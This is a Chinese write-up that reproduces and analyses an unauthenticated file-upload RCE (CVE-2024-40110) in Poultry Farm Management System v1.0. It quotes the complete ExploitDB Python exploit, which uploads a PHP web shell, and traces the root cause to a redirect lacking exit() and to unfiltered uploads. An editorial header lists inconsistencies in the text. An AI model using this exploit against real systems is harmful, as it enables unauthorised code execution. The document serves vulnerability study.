# exploit_db漏洞复现&分析1_CVE-2024-40110

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Poultry Farm Management System/Redcock Farm
- 文献类型：代码审计与复现
- 版本、权限及部署边界：v1.0；未登录POST仍执行header后代码；PHP可解析productimages目录
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 保留登录/未登录对照及header不终止执行的根因，删除功能验证是独立授权缺陷补充，不只重复上传PoC
2. 代码注释CVE待分配与文章已40110需标历史来源，命令为hostname但叙述成功whoami不一致
3. requests默认跟重定向后的200不能证明上传成功，需文件获取和内容断言；f-string被跨行断开语法损坏
4. 自动上传固定文件名且新增产品/删除product的演示具状态破坏风险；示范路径与源码安装子目录需要统一
5. ExploitDB52053/作者GitHub/源码包来源可追溯，但缺hash/修复版本，关键鉴权/移动文件源代码只图未视检

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://www.sourcecodester.com/sites/default/files/download/oretnom23/Redcock-Farm.zip>
- 原文参考链接（未重新核验）：<https://www.sourcecodester.com/php/15230/poultry-farm-management-system-free-download.html>
- 原文参考链接（未重新核验）：<https://github.com/w3bn00b3r/Unauthenticated-Remote-Code-Execution-RCE---Poultry-Farm-Management-System-v1.0/>
- 原文参考链接（未重新核验）：<http://$host$uri/$extra>
- 原文参考链接（未重新核验）：<http://www.baidu.com>
- 原文参考链接（未重新核验）：<https://www.exploit-db.com/exploits/52053>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 Ry4n  Crush Sec   2024-08-16 09:30  
  
## 前言  
  
近期想通过复现和分析漏洞，提高代码和漏洞方面的能力，exploit-db是一个很合适的平台，提供了漏洞poc和源码包等等，后续会持续更新该系列。  
  
本次选择了一个RCE：  
Poultry Farm Management System v1.0 - Remote Code Execution (RCE) - PHP webapps Exploit (exploit-db.com)[1]  
## 环境搭建  
  
源码下载链接：https://www.sourcecodester.com/sites/default/files/download/oretnom23/Redcock-Farm.zip  
  
本地使用phpstudy搭建，将源码解压后放到网站根目录WWW下，并新建一个farm数据库，将账号密码填写到WWW\Redcock-Farm\farm\includes\dbconnection.php中，访问即可http://127.0.0.1:8081/Redcock-Farm/farm/：  
  
  
  
账号密码在源码包中有提供。  
## 漏洞复现  
  
首先找到漏洞点product.php:  
  
  
  
直接在ui上传php文件，内容为phpinfo。  
  
上传成功，找一下文件路径：  
  
  
  
访问：  
  
  
  
成功。  
  
到这里能够成功复现，但是觉得没有分析的价值，在登录后直接上传php即可，没作文件过滤，但是回到exploit-db再看一下漏洞名：  
  
Unauthenticated Remote Code Execution (RCE) - Poultry Farm Management System v1.0，unauthenticated未授权，说明可以不需要登录即可利用，用exp尝试：  
```
# Exploit Title: Poultry Farm Management System v1.0 - Remote Code Execution (RCE)
# Date: 24-06-2024
# CVE: N/A (Awaiting ID to be assigned)
# Exploit Author: Jerry Thomas (w3bn00b3r)
# Vendor Homepage: https://www.sourcecodester.com/php/15230/poultry-farm-management-system-free-download.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/Redcock-Farm.zip
# Github - https://github.com/w3bn00b3r/Unauthenticated-Remote-Code-Execution-RCE---Poultry-Farm-Management-System-v1.0/
# Category: Web Application
# Version: 1.0
# Tested on: Windows 10 | Xampp v3.3.0
# Vulnerable endpoint: http://localhost/farm/product.php

import requests
from colorama import Fore, Style, init

# Initialize colorama
init(autoreset=True)

def upload_backdoor(target):
    upload_url = f"{target}/farm/product.php"
    shell_url = f"{target}/farm/assets/img/productimages/web-backdoor.php"

    # Prepare the payload
    payload = {
        'category': 'CHICKEN',
        'product': 'rce',
        'price': '100',
        'save': ''
    }

    # PHP code to be uploaded
    command = "hostname"
    data = f"<?php system('{command}');?>"

    # Prepare the file data
    files = {
        'productimage': ('web-backdoor.php', data, 'application/x-php')
    }

    try:
        print("Sending POST request to:", upload_url)
        response = requests.post(upload_url, files=files, data=payload,
verify=False)

        if response.status_code == 200:
            print("\nResponse status code:", response.status_code)
            print(f"Shell has been uploaded successfully: {shell_url}")

            # Make a GET request to the shell URL to execute the command
            shell_response = requests.get(shell_url, verify=False)
            print("Command output:", Fore.GREEN +
shell_response.text.strip())
        else:
            print(f"Failed to upload shell. Status code:
{response.status_code}")
            print("Response content:", response.text)
    except requests.RequestException as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    target = "http://localhost"  # Change this to your target
    upload_backdoor(target)

```  
  
  
  
成功执行命令whoami，下面跟进代码进行分析。  
## 漏洞分析  
  
直接在product.php下断点：  
  
  
先看登录后（带上cookie）上传文件：  
  
  
  
  
  
步入之后，通过session_start()，获取了session，所以没能进入if判断，直接跳出，没有执行header()。  
  
再看一下unauthenticated：  
  
  
  
执行到了header("Location: http://$host$uri/$extra")，此时未登录，所以session也为空。header的作用是进行重定向，重定向到登录页，但是继续往后执行，会发现还是执行到了product.php中的后续代码。  
  
  
  
是不是因为在header重定向之后没有die或者exit，导致这里的鉴权其实失败了？  
  
本地写一个php：  
```
<?php
if (isset($_GET['value']) && $_GET['value'] == 1) {
    header("Location: http://www.baidu.com");
    file_put_contents('log.txt', "Header sent, but script continues to execute.\n", FILE_APPEND);
    exit();
    file_put_contents('log.txt', "This won't execute because of exit().\n", FILE_APPEND);
}
?>
```  
  
访问之后：  
  
  
  
虽然重定向到了百度，但是同时写入文件的代码也被执行了，同理，也就导致了前面的问题。  
  
下面再通过删除功能验证一下。  
  
  
  
抓到删除的api为http://127.0.0.1:8081/Redcock-Farm/farm/product.php?del=32，在无痕浏览器中删除第一个product，等待两秒后重定向到登录页，但是product数量已经从24变为23，删除成功。  
  
继续往下：  
  
  
  
将上传的文件从临时文件移到assets/img/productimages/中，这一路径也可以在ui上直接通过检查得到。  
  
再往后：  
  
  
  
执行sql语句，插入数据库，如果有数据插入，就弹窗提示，成功。  
  
整个流程中存在如下的问题：  
  
•鉴权失效，导致不登录也能使用后台功能点  
•文件上传未作过滤，导致可以上传文件执行脚本  
### References  
  
[1] Poultry Farm Management System v1.0 - Remote Code Execution (RCE) - PHP webapps Exploit (exploit-db.com): https://www.exploit-db.com/exploits/52053  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
